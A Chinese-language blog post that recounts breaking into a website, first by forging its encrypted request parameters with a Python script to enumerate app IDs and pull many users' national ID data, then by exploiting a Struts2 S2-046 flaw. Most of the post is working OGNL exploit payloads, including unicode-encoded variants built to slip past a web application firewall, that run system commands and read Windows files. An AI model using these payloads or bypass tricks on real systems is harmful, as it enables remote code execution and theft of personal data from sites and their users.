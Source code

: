 ```yaml
---
layout: post
title: struts2 绕过记录
date: 2020-09-28
category: webmember
---
```

# 记一次struts2 代码执行漏洞waf绕过

* 工作拿到一个网站www.xxxx.com,网站由于特殊性，参数都是进行加密处理。比如一个数据包会将所有参数的值按照不同规则拼接然后
进行md5加密，渗透入侵这种网站很难，无法修改参数，需要写解密程序，在进行一些功能探索后，发现了一个漏洞点。在申请后有一个下载身份功能，然后我通过编写参数解密程序遍历了appid，获取到了大量用户的身份证数据
参数解密代码为
```
with open('8.txt', 'r') as f:
    for i, name in enumerate(f.readlines()):
        ss = "xxxxxxxx".format(name.strip("\n"))
        new_ss = base64.b64encode(ss.encode('utf-8'))
        newss = "xxxxxxx"+str(new_ss,
                    'utf-8')
        # print(newss)
        m = hashlib.md5()
        m.update(newss.encode("utf8"))
        basestring = "xxxxxxxxxxxxx".format(
            ios=str(new_ss, 'utf-8'), sign=m.hexdigest().upper())
        with open("99.txt", 'a') as a:
            a.write(basestring + "\n")
```
由此遍历出所有存在的appid
* 转折点，通过访问/upload.do 发现了直接500错误
```
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ConversionErrorInterceptor.intercept(ConversionErrorInterceptor.java:138)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.StaticParametersInterceptor.intercept(StaticParametersInterceptor.java:191)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.MultiselectInterceptor.intercept(MultiselectInterceptor.java:73)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.CheckboxInterceptor.intercept(CheckboxInterceptor.java:91)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.FileUploadInterceptor.intercept(FileUploadInterceptor.java:252)
```
发现存在strut2框架 于是我使用工具去跑 无果 因为有waf 然后通过一些简单的payload 发现了存在struts2-046漏洞 poc如下
```
%{(#sasxke='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('['+'tttpppppp'+'111]')).(#o.close())}"]
```
但是使用部分cmd exp 无法成功
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cmd /c dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"]
```
还是无法绕过waf 之后通过java特新 unicode编码执行代码 exp
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):(\u0028\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u005b\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u0027\u005d\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u003d\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u002e\u0067\u0065\u0074\u0049\u006e\u0073\u0074\u0061\u006e\u0063\u0065\u0028\u0040\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u006f\u0067\u006e\u006c\u002e\u004f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u0040\u0063\u006c\u0061\u0073\u0073\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0050\u0061\u0063\u006b\u0061\u0067\u0065\u004e\u0061\u006d\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0043\u006c\u0061\u0073\u0073\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0073\u0065\u0074\u004d\u0065\u006d\u0062\u0065\u0072\u0041\u0063\u0063\u0065\u0073\u0073\u0028\u0023\u0064\u006d\u0029\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u003d\u0027\u0073\u0079\u0073\u0074\u0065\u006d\u0069\u006e\u0066\u006f\u0027\u0029\u002e\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003d\u0028\u0040\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0079\u0073\u0074\u0065\u006d\u0040\u0067\u0065\u0074\u0050\u0072\u006f\u0070\u0065\u0072\u0074\u0079\u0028\u0027\u006f\u0073\u002e\u006e\u0061\u006d\u0065\u0027\u0029\u002e\u0074\u006f\u004c\u006f\u0077\u0065\u0072\u0043\u0061\u0073\u0065\u0028\u0029\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0073\u0028\u0027\u0077\u0069\u006e\u0027\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u0073\u003d\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003f\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u003a\u007b\u0027\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068\u0027\u002c\u0027\u002d\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u0029\u0029\u002e\u0028\u0023\u0070\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u0023\u0063\u006d\u0064\u0073\u0029\u0029\u002e\u0028\u0023\u0070\u002e\u0072\u0065\u0064\u0069\u0072\u0065\u0063\u0074\u0045\u0072\u0072\u006f\u0072\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0074\u0072\u0075\u0065\u0029\u0029\u002e\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u003d\u0023\u0070\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u003d\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0073\u0074\u0072\u0075\u0074\u0073\u0032\u002e\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u0040\u0067\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0028\u0029\u002e\u0067\u0065\u0074\u004f\u0075\u0074\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u0029\u0029\u002e\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0063\u006f\u006d\u006d\u006f\u006e\u0073\u002e\u0069\u006f\u002e\u0049\u004f\u0055\u0074\u0069\u006c\u0073\u0040\u0063\u006f\u0070\u0079\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0072\u006f\u0073\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029)}"]
```


redirect:%24%7B\u0023\u0062\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0046\u0069\u006c\u0065\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0027\u0063\u003a\u002f\u0077\u0069\u006e\u0064\u006f\u0077\u0073\u002f\u0077\u0069\u006e\u002e\u0069\u006e\u0069\u0027\u0029\u0029\u002c\u0023\u0063\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0062\u0029\u002c\u0023\u0064\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0042\u0075\u0066\u0066\u0065\u0072\u0065\u0064\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0063\u0029\u002c\u0023\u0065\u003d\u006e\u0065\u0077\u0020\u0063\u0068\u0061\u0072\u005b\u0035\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0065\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u0065\u0029%7d




cmd.exe -c whoami
redirect:%24%7B\u0023\u0072\u0065\u0073\u0070\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u0072\u0065\u0071\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u0027\u0029\u002c\u0023\u0061\u003d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u005b\u005d\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0027\u0077\u0068\u006f\u0061\u006d\u0069\u0027\u007d\u0029\u0029\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u002c\u0023\u0062\u003d\u0023\u0061\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0064\u0069\u0073\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0044\u0061\u0074\u0061\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0023\u0062\u0029\u002c\u0023\u0062\u0075\u0066\u003d\u006e\u0065\u0077\u0020\u0062\u0079\u0074\u0065\u005b\u0032\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u0069\u0073\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u006d\u0073\u0067\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u0064\u0069\u0073\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u006d\u0073\u0067\u002e\u0074\u0072\u0069\u006d\u0028\u0029\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029%7D


成功拿下网站 

![struts]({{ site.url }}/assert/image/struts.jpg)

## 总结
* 遇到这种网站如果无法解密加密方式 无法对网站进行渗透
* 通过其他途径入侵web系统 如报错中的使用的漏洞框架
* 针对java的waf绕过方式的总结
